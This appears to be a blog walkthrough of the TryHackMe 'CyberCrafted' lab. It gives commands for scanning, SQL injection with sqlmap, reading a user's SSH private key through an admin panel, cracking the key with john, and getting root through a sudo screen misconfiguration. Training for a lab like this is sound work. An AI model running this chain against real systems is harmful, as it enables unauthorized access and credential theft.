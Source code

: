 ```yaml
---
title: Try Hack Me CyberCrafted
date: 2021-11-24T15:54:45+05:30
lastmod: 2021-11-24T15:54:45+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/CyberCrafted.gif # for tryhackMe
simg: /img/CyberCrafted.png

categories:
  - TryHackMe
tags:
  - tryhackme
 

draft: false
description: TryHackMe Room {CyberCrafted} solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

Pwn this pay-to-win Minecraft server!

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|CyberCrafted|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/dd06737472c79a806e2049ddeb3af354.png)|
| <b> CyberCrafted [Free Room] </b>| [CyberCrafted](https://tryhackme.com/room/cybercrafted)|

## Task 01: Deploy the machine

## Task 02: Root it

### Answer the questions below

|Task|Question|Ans|
|:---|---|---|
|1|How many ports are open?|[2.1](#21)|
|2|What service runs on the highest port?|[2.2](#22)|
|3|Any subdomains? (Alphabetical order)|[2.3](#23)|
|4|On what page did you find the vulnerability?|[2.4](#24)|
|5|What is the admin's username? (Case-sensitive)|[2.5](#25)|
|6|What is the web flag?|[2.6](#26)|
|7|Can you get the Minecraft server flag?|[2.7](#27)|
|8|What is the name of the sketchy plugin?|[2.8](#28)|
|9|What is the user's flag?|[2.9](#29)|
|10|Finish the job and give me the root flag!|[2.10](#210)|
---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## Initial recon

### nmap

basic nmap returns `2 open ports`

* Virtual Hosting:

     ```bash
     curl -I 10.10.204.106                                                                
     HTTP/1.1 302 Found
     Date: Wed, 24 Nov 2021 10:45:02 GMT
     Server: Apache/2.4.29 (Ubuntu)
     Location: http://cybercrafted.thm/
     Content-Type: text/html; charset=UTF-8
     ```

* curl returns a domain name, let's add that to our `/etc/hosts` file.

### SqlMap

* capture the req for `http://store.cybercrafted.thm/search.php` using burp and save it as **search.req**
* run it through `sqlmap -r search.req`
* command: `sqlmap -r search.req --dbs`

### login to admin portal

* we got creds from [sqlmap](#sqlmap)
* you can find the `plain text password` of hash on `crackstation.net`

### ssh-key

* once you save the key
* use `ssh2john` to generate the crackable hash; `locate ssh2john` to find the file on your attacker machine
* `usr/share/john/ssh2john.py creeper.key > cracking.hash` 
* cracking: `john cracking.hash --wordlist=/usr/share/wordlists/rockyou.txt`
  
---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

## Flags

### 2.1

ref to [nmap](#nmap)

### 2.2

ref to [nmap](#nmap)

or

`nmap -sC -sV IP:HigherPort(open)`

### 2.3

* Wordlist : [SecLists](https://github.com/danielmiessler/SecLists)
* commaand:
  `gobuster vhost -u domain.thm -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`

### 2.4

* initial enum shows web-service running `php`
* let's run `gobuster`
* command:
  `gobuster dir -u http://store.cybercrafted.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o store.out -x php `

### 2.5

ref to [Sqlmap](#sqlmap)

### 2.6

ref to [Sqlmap](#sqlmap)

### 2.7

* once you login to [admin panel](#login-to-admin-portal)
* you can download the `.ssh` keys for `xXUltimateCreeperXx`
* on `http://admin.cybercrafted.thm/panel.php` run this `cat /home/xxultimatecreeperxx/.ssh/id_rsa`
* save the key
* ref to [ssh-key](#ssh-key)
* login as `xxultimatecreeperxx`
* find `mindcraft` dir
* find command `find / -name 'minecraft' 2>/dev/null`
* you'll see the flag on the directory

#### 2.8

* list the plugins `ls /opt/minecraft/cybercrafted/plugins/`

### 2.9

* goto `sketchy plugin` directory
* you'll see the creds on `log.txt`
* use that to elevate to `cybercrafted`
* read the `user` flag.

### 2.10

* check with `sudo -l`

     ```bash
     cybercrafted@cybercrafted:~$ sudo -l 
     Matching Defaults entries for cybercrafted on cybercrafted:
     env_reset, mail_badpass,
     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

     User cybercrafted may run the following commands on cybercrafted:
     (root) /usr/bin/screen -r cybercrafted
     ```

* check `gtfobins` for screen
* run the `sudo command` then type `CTRL+A` & `c` to get the shell.
* read the root flag.

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
